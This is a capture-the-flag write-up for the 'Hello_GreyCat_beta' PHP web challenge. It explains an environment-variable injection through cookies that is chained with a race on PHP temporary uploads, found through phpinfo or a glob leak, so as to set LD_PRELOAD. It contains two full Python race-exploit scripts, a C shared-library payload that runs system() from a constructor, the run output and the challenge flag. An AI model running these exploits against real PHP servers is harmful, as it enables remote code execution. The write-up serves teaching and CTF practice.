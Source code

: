 # Hello_GreyCat_beta

### Challenge Details

a simple web which assign user a default name and store into cookie when they first visit the website. When the user visit the website again, the backend will retrieve the cookie and inject name into system variable called `name` and then call `system('echo $name')` to greet the player.

### Key Concepts

Similar to `Hello_GreyCat_alpha`, a envirmental variable injection issue, but overwriting the echo with the BASH_FUNC extended variable does not work here. (if you get it work, please teach me)

Some simple enumeration would reveal a phpinfo page at `/info.php`, so the solution is to use race condition to upload a malicious shared library, overwrite the environmental variable of `LD_PRELOAD` and achieve RCE. Similar idea can refer to [this blog post](https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf)

### Solution

a slightly modified [exp.py](./sol/exp.py):

<details>
  <summary>Click to expand!</summary>

```python
#!/usr/bin/python
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD=open('hijack.so','rb').read()+"\r"
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script
    LFIREQ="""GET /test.php?envs[LD_PRELOAD]=TMP_FILE_PATH HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: HOSTNAME\r
\r
\r
"""
    LFIREQ="""GET /hello.php HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Cookie: info[LD_PRELOAD]=TMP_FILE_PATH\r
Proxy-Connection: Keep-Alive\r
Host: HOSTNAME\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    #print(lfireq.replace("TMP_FILE_PATH",fn).replace("HOSTNAME",host))
    s2.send(lfireq.replace("TMP_FILE_PATH",fn).replace("HOSTNAME",host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)
        d+=i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():

    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

</details>


[hijack.c](./sol/hijack.c)(a universal way of hijacking the execution flow using attribute constructor)

```c
#include <unistd.h>
#include <stdlib.h>

void payload(void){
    system("touch /tmp/pwnd");
}
__attribute__ ((__constructor__)) void exec(void){
    if (getenv("LD_PRELOAD") == NULL){ return; }
    unsetenv("LD_PRELOAD");
    payload();
    return;
}
```




```bash
$ gcc -shared -fPIC hijack.c -o hijack.so

$ python2 exp.py 34.142.161.21 12322 50
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 116523
Spawning worker pool (50)...
 1000 /  1000
:(
Shuttin' down...
```



Note: success rate depends on connection latency. I run the script on the sg server from vultr, the success rate is about 80%.

### Unintended Solution

As pointed out by IDissEverything in the discord channel:

> setting infos[name] to * will actually print out all the files in cwd
>
> so setting to /tmp/php* can also get the location of temp file

my default shell was `zsh`, I didn't capture this feature during testing, but apparently php's system function is using `sh`

```bash
# null @ DESKTOP-5IGNPD7 in ~ [23:41:47]
$ zsh -c 'name=/tmp/*;echo $name'
/tmp/*

# null @ DESKTOP-5IGNPD7 in ~ [23:41:53]
$ sh -c 'name=/tmp/*;echo $name'
/tmp/greyctf22-challs /tmp/hsperfdata_root /tmp/index.php /tmp/my.log /tmp/pwndbg /tmp/sasquatch /tmp/seetf /tmp/test.php /tmp/test.py /tmp/tmux-0
```

so actually `info.php` is not needed, we can just use `hello.php` to leak the temporary uploaded files under the folder `/tmp/` as well. And one advantage(or disadvantage for a CTF with multiple players?) of using `hello.php` to do so is that it will leak all the files under the `/tmp/directory`, which could significantly increase the chance of race condition.

[exp2.py](./sol/exp2.py)

<details>
  <summary>Click to expand!</summary>

```python
#!/usr/bin/python
import sys
import threading
import os
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD=open('hijack.so','rb').read()+"\r"
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /hello.php HTTP/1.1\r
Cookie: infos[name]=/tmp/*;\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    LFIREQ="""GET /hello.php HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Cookie: infos[LD_PRELOAD]=TMP_FILE_PATH\r
Proxy-Connection: Keep-Alive\r
Host: HOSTNAME\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    #while len(d) < offset:
    while "source=1" not in d:
        d += s.recv(offset)
    try:
        start = d.index("Hello, ")
        end = d.index("\n\n<html")
        # get rid of the transfer-encoding:chunked thing
        fn = d[start+7:end].split("\n")[0]
    except ValueError:
        return None

    s2.send(lfireq.replace("TMP_FILE_PATH",fn).replace("HOSTNAME",host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)
        d+=i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("Hello, /tmp/")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    # padded up a bit
    return i+4096

def main():

    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

</details>

### Learning Objectives

see above

### Flag

```
grey{3nv_v4r14bl3_15_5000000_d4n63r0u5_eeea3884e359995c}
```
